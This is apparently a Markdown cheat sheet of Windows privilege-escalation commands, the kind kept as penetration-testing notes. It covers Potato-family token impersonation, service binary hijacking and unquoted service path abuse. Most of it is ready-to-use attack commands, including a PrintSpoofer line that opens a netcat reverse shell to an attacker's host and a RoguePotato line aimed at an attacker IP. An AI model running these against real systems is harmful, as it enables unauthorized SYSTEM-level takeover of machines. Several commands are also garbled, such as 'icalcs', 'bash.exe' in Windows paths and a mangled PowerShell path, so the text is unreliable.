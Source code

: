 ## Token Impersonation

- Command to check `whoami /priv`

```bash
# Printspoofer
PrintSpoofer.exe -i -c bash.exe 
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"

# RoguePotato
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999

# GodPotato
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"

# JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "shell.exe" -a

# SharpEfsPotato
SharpEfsPotato.exe -p C:\Windows\system32\Windowsbash\v1.0\bash.exe -a "whoami | Set-Content C:\temp\w.log"
# writes whoami command to w.log file
```

## Binary Hijacking

```python
# Identify service from winpeas
# F means full permission, we need to check we have full access on folder
icalcs "path" 
# find binarypath variable
sc qc <servicename> 
# change the path to the reverseshell location
sc config <service> <option>="<value>" 
sc start <servicename>
```

## Unquoted Service Path

```bash
# Displays services which has missing quotes, this can slo be obtained by running WinPEAS
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """ `
# Check the Writable path
icalcs "path"
# Insert the payload in writable location and which works.
sc start <servicename>
```

## Insecure Service Executables
